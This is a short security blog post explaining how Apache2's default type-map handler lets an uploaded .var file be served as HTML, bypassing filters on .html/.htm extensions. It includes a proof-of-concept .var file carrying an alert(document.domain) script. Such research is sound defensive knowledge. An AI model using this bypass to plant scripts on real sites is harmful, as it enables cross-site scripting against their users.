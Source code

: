 ```yaml
---
layout: post
title:  "XSS with Apache2 type-map handler extension"
date:   2020-11-29 23:48:00
tags:   [Apache2, XSS]
---
```


## Description
This post contains about cross site scripting with Apache2 type-map extension.
<br/>
<br/>


## Negotiation in httpd
In order to negotiate a resource, the server needs to be given information about each of the variants. This is done in one of two ways:

* Using a type map (i.e., a *.var file) which names the files containing the variants explicitly, or
* Using a 'MultiViews' search, where the server does an implicit filename pattern match and chooses from among the results.

#### Using a type-map file
A type map is a document which is associated with the handler named type-map (or, for backwards-compatibility with older httpd configurations, the MIME-type application/x-type-map). Note that to use this feature, you must have a handler set in the configuration that defines a file suffix as type-map; this is best done with
```
AddHandler type-map .var
```
(https://httpd.apache.org/docs/2.4/en/content-negotiation.html)
<br/>
<br/>


## XSS with var exntension
`AddHandler type-map .var` is applied by default in Apache2. so when you can't use `html` or `htm` extension, you can use `var` to trigger xss.
```
# /etc/apache2/mods-enabled/mime.conf
232     # For type maps (negotiated resources):
233     # (This is enabled by default to allow the Apache "It Worked" page
234     #  to be distributed in multiple languages.)
235     #
236     AddHandler type-map var
```

```
➜  ~ cat test.var
Content-language: en
Content-type: text/html
Body: ----foo----
<script>
alert(document.domain)
</script>
----foo----
```
